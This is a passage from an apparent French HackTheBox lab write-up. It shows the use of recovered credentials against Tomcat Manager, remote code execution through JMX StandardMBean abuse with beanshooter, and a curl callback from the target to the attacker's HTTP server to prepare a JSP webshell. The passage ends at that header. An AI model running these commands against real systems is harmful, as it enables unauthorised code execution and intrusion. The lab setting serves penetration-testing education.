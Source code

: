 Bingo ! Nous avons obtenu des identifiants qui pourraient nous donner accès à l'interface d'administration Tomcat ou au système.

## **Phase 2 : Remote Code Execution via JMX**

### **1. Tentative d'Accès à Tomcat Manager**

Essayons d'utiliser les identifiants récupérés pour accéder à l'interface Tomcat Manager :

```bash
curl -u manager:fhErvo2r9wuTEYiYgt http://10.129.236.246:8080/manager/text/list
```

{{< admonition failure "Accès Refusé" >}}
HTTP 403 - L'accès est restreint à localhost uniquement
{{< /admonition >}}

### **2. RCE via StandardMBean Abuse**

Puisque l'accès direct à Tomcat est restreint, exploitons la vulnérabilité JMX pour exécuter des commandes :

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.129.236.246 2222 exec "whoami"
```

![Test d'exécution de commande](/images/HTBManage/standard_mbean_rce.png)

{{< admonition tip "Mécanisme Technique" >}}
- Beanshooter déploie un `TemplateImpl` payload via `StandardMBean`
- La méthode `newTransformer()` déclenche l'exécution de code
- Le `NullPointerException` attendu confirme que l'attaque a fonctionné
{{< /admonition >}}

### **3. Test de Connectivité Réseau**

Les reverse shells TCP directs échouent, probablement à cause d'un filtrage réseau. Vérifions si la cible peut nous joindre via HTTP :

```bash
# Terminal 1 - Serveur HTTP
python3 -m http.server 8000

# Terminal 2 - Test depuis la cible
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.129.236.246 2222 exec "curl http://10.10.14.54:8000/test"
```

![Test de connectivité HTTP](/images/HTBManage/http_connectivity.png)

{{< admonition success "Connexion Réussie" >}}
La cible peut nous joindre via HTTP, ce qui nous ouvre une voie pour déployer un webshell
{{< /admonition >}}

### **4. Déploiement d'un Webshell JSP**
